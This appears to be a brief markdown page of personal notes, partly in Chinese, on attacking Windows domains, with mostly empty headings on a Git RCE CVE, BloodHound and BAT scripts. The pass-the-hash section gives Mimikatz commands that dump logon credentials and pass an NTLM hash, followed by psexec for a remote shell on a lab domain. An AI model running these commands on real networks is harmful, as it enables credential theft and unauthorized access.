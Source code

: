 

### Windows域



### PTH

pass the hash



```
privilege::debug
sekurlsa::logonpasswords

seckurlsa::pth /user:administrator /domain:deelmind.lab /ntlm:fdaifajfiadjfidafadfa
psexec \\deelmind.lab cmd
```



### CVE-2020-27955

git指定版本的RCE漏洞





## 域环境拓扑图的查看

BloodHound



## BAT脚本

